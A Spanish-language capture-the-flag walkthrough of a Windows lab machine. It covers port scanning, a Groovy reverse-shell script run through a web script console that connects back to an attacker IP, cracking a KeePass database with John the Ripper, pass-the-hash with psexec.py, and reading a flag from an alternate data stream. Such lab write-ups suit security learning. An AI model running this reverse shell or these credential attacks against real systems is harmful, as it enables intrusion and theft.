





#Windows #Medium 
___

Comenzamos con un reconocimiento básico de la máquina mediante el escaneo de puertos. Para ello, utilizamos **RustScan** de la siguiente manera:

```bash
sudo rustscan -a 10.129.228.112 --ulimit 5000 -r 1-65535 -- -sCV -oN targeted
[sudo] password for kali: 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.228.112:80
Open 10.129.228.112:135
Open 10.129.228.112:445
.....
```

Procedemos a inspeccionar las páginas web disponibles, identificando que están accesibles a través de los puertos 80 y 5000. Además, verificamos la existencia de sesiones nulas en los protocolos RPC y SMB.

### Puerto 80



### Puerto 50000



### Realizamos una comprobación de los protocolos SMB y RPC para determinar si aceptan sesiones nulas.

### SMB


### RPC


Después de realizar las comprobaciones y análisis iniciales, procedemos a realizar un fuzzing en los dos aplicativos web con el objetivo de identificar posibles subdirectorios.




Durante el reconocimiento comprobamos la existencia de un direcotio llamado *askjeeves*

Una vez dentro, procedemos a nevegar en la pagina web, y obsevamos que tenemos una seccion de script, para ello usamos un comando que aprovecha de Grovy script para darnso una reverse shell




```Groovy
String host='10.10.14.59';
int port=1234;
String cmd='cmd.exe';
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Si todo sale bien procedemos a obtener una reverse shell


Ahora toca escalar privilegios

Para ello, comenzamos buscando archivos **.kdbx** utilizando el siguiente comando:

```cmd
dir C:\*.kdbx /S /A:-D
```

Esto nos proporcionó como resultado una base de datos. Utilizamos **keepass2john** para convertirla a un formato compatible con **John the Ripper** y procedimos a realizar un ataque de fuerza bruta para descifrarla.


Logramos descifrar la base de datos utilizando **John the Ripper**.


A continuación, utilizamos **KeePassXC** para abrir la base de datos. Con la contraseña descifrada previamente con **John the Ripper**, obtenemos un hash de administrador. Posteriormente, empleamos la utilidad **psexec.py** de **Impacket** para establecer una conexión con el sistema.


Una vez conectado procedemos a encontrar la bandera de root pero al entrar al escriotorio nos percatamos que soo hay un archivo llamado hm.txt, para procedimos a hacer el siguiente comando 

```cmmd
dir /s/r hm.txt
```

Obteniendo como resultado lo siguiente.



Ejecutamos el siguiente comando para verificar si podemos acceder al flujo alternativo de datos:

```cmd
more < hm.txt:root.txt
```

Obteniendo como resultado la flag.
